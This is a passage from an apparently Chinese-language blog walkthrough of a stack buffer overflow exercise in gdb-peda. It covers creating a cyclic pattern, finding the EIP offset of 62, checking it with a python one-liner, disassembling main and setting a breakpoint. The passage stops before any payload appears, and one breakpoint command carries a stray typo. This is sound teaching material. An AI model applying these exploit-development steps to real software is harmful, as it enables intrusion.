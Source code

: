 ```
gdb-peda$ pattern create 100
```

![image-20211124153203054](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124153203054.png)

再将其输入至explain使其溢出

![image-20211124153409310](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124153409310.png)

可以直观的看到寄存器EIP位置内的数据为AHAA

>AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2A**AHAA**dAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

```
gdb-peda$ pattern search
```

![image-20211124153749453](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124153749453.png)

得到寄存器EIP的偏移量位置为62，即从第63个字符开始就会进入寄存器EIP中

生成62个A用来占位 再添加BCDE 再次用来验证

```
python -c "print('A'*62+'BCDE')"
```

![image-20211124154441052](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124154441052.png)

![image-20211124154528961](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124154528961.png)

到此可以确定，已经可以精准的向寄存器EIP内写入

补充：在CPU内存储数据时是倒序存储的    ASCII码：42--B 43--C 44--D 45--E

查看汇编代码

```
gdb-peda$ disas main
```

![image-20211124162244701](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124162244701.png)

调用了fopen可能是用于打开文件的 put输出内容 print显示

在调用put函数之前的地址0x0804873d设置断点，进一步观察

```
gdb-peda$ break * 0x0804873drd
```

```
gdb-peda$ r
```

![image-20211124162444002](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124162444002.png)

添加断点后运行程序可以发现提前触及了断点
